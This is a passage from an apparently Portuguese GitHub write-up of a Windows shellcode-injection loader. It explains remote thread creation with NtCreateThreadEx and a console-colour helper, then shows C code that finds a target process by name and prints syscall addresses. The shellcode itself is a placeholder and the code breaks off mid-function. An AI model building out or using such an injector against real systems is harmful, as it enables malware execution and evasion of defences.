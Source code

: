 ### Criação de Threads
Realizamos a criação de uma **thread remota** com `NtCreateThreadEx`. A função inicia a execução do Shellcode escrito na memória, fazemos uso de `NtWaitForSingleObject` para esperar a conclusão da thread que inciamos.

---
### Gerenciamento de Cores do Console
Coloquei o `SetConsoleColor` que ajuda a manipular a cor do console, adicionando na minha opinião uma camada de interatividade ao programa. Essa abordagem de interface com o usuário é frequentemente negligenciada em exemplos de código, mas para mim é crucial para a experiência do usuário. Permitindo que os erros e informações sejam destacados visualmente.

```c
#include"func.h"

#ifndef NT_SUCCESS
#define NT_SUCCESS(Status) (((NTSTATUS)(Status)) >= 0)
#endif

unsigned char shellcode[] = { ...Shellcode... };

SIZE_T shellcodeSize = sizeof(shellcode);

DWORD GetProcessIdByName(const wchar_t* processName)
{
	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (snapshot != INVALID_HANDLE_VALUE)
	{
		PROCESSENTRY32W processEntry;
		processEntry.dwSize = sizeof(PROCESSENTRY32W);

		if (Process32FirstW(snapshot, &processEntry))
		{
			do
			{
				if (wcscmp(processEntry.szExeFile, processName) == 0)
				{
					CloseHandle(snapshot);
					return processEntry.th32ProcessID;
				}
			} while (Process32NextW(snapshot, &processEntry));
		}
	}

	CloseHandle(snapshot);
	return 0;
}

void printAddressLetterByLetter(const char* name, UINT_PTR ntapiAddress, UINT_PTR syscallAddress) {
    SetConsoleColor(FOREGROUND_BLUE | FOREGROUND_INTENSITY);
    
    printf("Endereco de %s: ", name);
    char ntapiBuffer[20];
    sprintf_s(ntapiBuffer, sizeof(ntapiBuffer), "0x%p", (void*)ntapiAddress);

    for (int i = 0; ntapiBuffer[i] != '\0'; i++) {
        printf("%c", ntapiBuffer[i]);
        fflush(stdout);
        Sleep(10);
    }
    printf("\n");
    
    printf("Endereco de %s Syscall: ", name);
```